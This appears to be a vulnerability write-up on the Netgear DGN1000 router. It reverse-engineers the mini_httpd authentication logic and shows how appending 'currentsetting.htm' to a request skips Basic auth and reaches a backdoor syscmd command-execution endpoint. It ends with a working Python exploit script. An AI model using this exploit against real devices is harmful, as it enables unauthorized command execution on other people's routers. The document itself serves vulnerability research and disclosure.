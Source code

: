 # DGN1000_unauthorized_comamnd_injection






---

![](vx_images/21526719452531.png)


Finally found a backdoor page here, access to find can command execution.


![](vx_images/535906218752489.png)

![](vx_images/77490624384333.png)

But now that the authorized command is executed, we need to bypass BA authentication.
![](vx_images/536381941701306.png)
After Authorization: Basic YWRtaW46cGFzc3dvcmQ= is deleted, Authorization: warning is displayed, and the command cannot be executed.

---
# Unauthorized bypass

This service starts with mini_httpd, and the Authorization function should also be included. Let's do an ida analysis

![](vx_images/471122002746760.png)
Try to locate WWW-Authenticate with an authorization-related string:

![](vx_images/596833289219970.png)

Looking at the function called from above, notice that the system log records Administrator login success-ip :%s
![](vx_images/390022922856594.png)



Next, we notice a judgment before printing the login success log.
![](vx_images/552905401506301.png)

If flag==0, the login process is executed normally and the program is suspended with kill(ppid,1). kill(ppid,17) terminates the program. This also shows from the side that it is the authorization judgment is completed, and then the end of the program, so as long as we can control the value of flag 0, it is likely to be able to log in successfully.

---

So here we go and look at the reference to flag to see if we can assign a value to it again.


![](vx_images/483973858331806.png)

We see that flag is assigned here.
But let's also focus on where does a1 come from
![](vx_images/533044257912102.png)
First a1 is passed by the calling function.

![](vx_images/290821426444562.png)
This parameter is obtained from dword_100000DC.
![](vx_images/418902345195970.png)

Of all the upper functions, this is the only one that calls it.
The logic of the program is as follows
```
currentsetting.htm存在 -----》dword_100000DC=0   -------》a1=0   ---------》不进入if(a1),直接执行后面的功能
Currentsetting. HTM there -- -- -- -- -- "dword_100000DC = 0 -- -- -- -- -- -- -- > a1 = 0 -- -- -- -- -- -- -- -- --" don't enter the if (a1), perform the functions directly
```





Let's analyze if(a1) in detail here

![](vx_images/434784871821804.png)


If flag==1, jump to lable12
![](vx_images/490116421823088.png)



# Code analysis


 Previously defined
 char v116[10000]; // [sp+2B28h] [-3330h] BYREF
 struct stat v117; // [sp+5238h] [-C20h] BYREF


![](vx_images/297617282595866.png)
Here the path is concatenated with the suffix /.htpasswd
The stat function is used to check whether the.htpasswd file exists. If it does not exist and the IP address is different from the expected one, the administrator logs in successfully

---

Explain that judgment
![](vx_images/144466560117124.png)
```
This is because each incoming packet ip_addr is stored in the location &byte_10000040. The system will print "Administrator login success-ip :%s" only when you login from another IP address.
If you do not make this judgment, each time a packet is sent from the same ip address, the log records this
```

---






if you don't enter if(stat())
The program executes lines 173 through 292
```

```

![](vx_images/326568052935500.png)

Check whether dword_100073B0 exists and no unauthorized output exists
Take the first 6 bytes, and compared to Basic, it also outputs unauthorized.
Then, obviously, it will have to compare base64 encrypted passwords

![](vx_images/216386443090192.png)
Sure enough, the following call strcmp, and after the comparison print whether the authorization is successful.



---
So here we can say,

If a1=1 and flag=0, the authentication succeeds.
When a1=1 and flag=1, the account password is verified.
When a1=0, the statement in if () is directly bypassed, and the code after LABEL_61: continues to execute

---


Since the verification of authorization is all in this if(a1), a1=0 jumps right to the back, implementing unauthorization.



---

exp

```
import requests

cmd = "ls"
target_ip="192.168.0.1"



burp0_url = "http://"+target_ip+"/setup.cgi?todo=syscmd&cmd=" + cmd + "&_=1721817685516&currentsetting.htm"
burp0_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "X-Requested-With": "XMLHttpRequest",
    "Connection": "close",
    "Referer": "http://192.168.0.1/syscmd.htm"
}


response = requests.get(burp0_url, headers=burp0_headers)


if response.status_code == 200:

    print "Response content:"
    print response.text
else:
    print "Request failed with status code:", response.status_code

```

---




